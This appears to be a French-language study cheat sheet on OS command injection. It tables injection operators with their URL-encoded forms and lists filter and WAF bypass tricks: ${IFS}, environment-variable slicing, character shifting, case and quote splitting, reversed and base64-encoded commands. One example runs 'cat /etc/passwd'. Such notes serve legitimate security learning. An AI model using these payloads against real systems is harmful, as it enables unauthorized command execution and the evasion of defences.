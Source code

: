 # Détection
| Injection Operator  | Injection Character | URL-Encoded Character  | Executed Command                            |
| --- | --- | --- | --- |
| Semicolon | ;  | %3b | Both |
| New Line  | \n  | %0a | Both |
| Background  | &  | %26 | Both (second output generally shown first) |
| Pipe | \|  | %7c | Both (only second output is shown) |
| AND  | && | %26%26 | Both (only if first succeeds) |
| OR  | \|\|  | %7c%7c | Second (only if first fails) |
| Sub-Shell | ``  | %60%60 | Both (Linux-only) |
| Sub-Shell  | $() | %24%28%29  | Both (Linux-only) |

Parfois ajouter un \n après notre dernière commande permet de voir le résultat?

# Identifier les protections
WAF: pourrait retourner une erreur différente, moins intégré à l'application.
Charactère ou commande rejeté? Simplement tester les charactères seuls

# Outrepasser les protections
### Espaces rejetés:
* utiliser des tabs (%09)
* env var ${IFS} (contient un espace et un tab par défaut)
* brace expension. Ajoute des espaces entre les arguments {ls,-la}
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-without-space

### Utiliser les variables d'environement pour extraire des charactères:
#### Linux:
lister variables:	printenv
* / 	${PATH:0:1}
* ;	${LS_COLORS:10:1}
#### Windows 
##### cmd:
* \\	%HOMEPATH:~6,-11%
##### Powershell:
lister variables:	Get-ChildItem Env:
* \\	$env:HOMEPATH[0]
 
### Shift de charactères:
* ; 	$(tr '!-}' '"-~'<<<:) 	
: est avant ; en ascii. 		tr shift du premier groupe vers le 2eme groupe selon la différence. entre ! et " il y a 1 donc shift de 1.

### Commandes rejetés
##### Linux et Windows:
Utiliser ‘ ‘ ou “ ” pour briser la commande, mais ne pas mélanger. ’w'hoami
##### Linux:
```
\ et $@	w\ho\am\i 	who$@ami
$(tr "[A-Z]" "[a-z]"<<<"WhOaMi") 	Utiliser des maj et min puis reconvertir en min
$(rev<<<'imaohw')	inverser une commande
```
##### Windows:
```
^	exister d'autres aussi
WhOaMI	Utiliser casse différente
iex "$('imaohw'[-1..-20] -join '')"	inverser une commande
```

### Encodage
##### Linux:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~shell 
echo -n 'cat /etc/passwd | grep 33' | base64
bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

alternatives: sh pour exécution, openssl pour décoder b64 ou xxd pour décodage hex 
##### Windows:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))
echo -n whoami | iconv -f utf-8 -t utf-16le | base64
iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-with-variable-expansion

# Automatisation
Bashfuscator
DOSfuscation
